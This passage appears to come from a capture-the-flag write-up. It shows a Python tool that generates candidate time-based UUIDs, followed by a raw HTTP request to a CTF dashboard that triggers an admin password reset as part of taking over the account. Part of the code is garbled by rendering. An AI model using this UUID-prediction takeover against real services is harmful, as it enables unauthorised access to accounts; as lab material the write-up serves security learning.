 ```python
    parser.add_argument("-i", "--info", help="Print UUID info an exit", action="store_true")

    parser.add_argument("-p", "--precision", type=int, default=10000, help="The number of 100-nanosecond intervals between each UUID (default 10000)")
    parser.add_argument("-r", "--range", type=int, default=1, help="The number of seconds each side of the timestamp to generate UUIDs for (deafult 1)")
    # NSEC25 - Update here
    parser.add_argument("-t", "--base-time",
                        help="The estimated time at which the UUID was generated in '%%Y-%%m-%%d %%H:%%M:%%S' format, e.g. '2021-03-17 16:42:11'",
                        type=lambda s: datetime.datetime.strptime(s, "%Y-%m-%d %H:%M:%S.%f"))

    parser.add_argument("uuid", help="The UUID to inspect")
    args = parser.parse_args()

    # Validate GUID
    try:
        _ = uuid.UUID(args.uuid)
    except:
        print("Invalid UUID")
        sys.exit(1)

    # Handle info printing
    if args.info:
        printUUIDInfo(args.uuid)
        sys.exit(0)

    # Handle generation. Some optional arguments are required in this case
    if args.base_time is None:
        print("Base time required - specify with '-t' or '--base-time'")
        sys.exit(1)

    for u in genUUIDs(args.uuid, args.precision, args.range, args.base_time):
        print(u)

    if name == "main":
    main()
```

After that, you can just rebuild the new version of the tool and ask the API to generate a new password for the `admin` user:

```powershell
POST /api/auth/token HTTP/1.1
Host: dashboard.fms.ctf
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJkZW1vQGZtcy5jdGYiLCJhZG1pbiI6ZmFsc2UsImV4cCI6MTc0NzQ0NzQxMX0.Kg9WhHqDVcx3H7Xy5K7-fz-RDxjg78cd1Wl4CyoRf6U
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: application/json, text/plain, */*
Content-Type: application/json
Origin: https://dashboard.fms.ctf
Referer: https://dashboard.fms.ctf/docs
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"email":"admin@fms.ctf"}
```

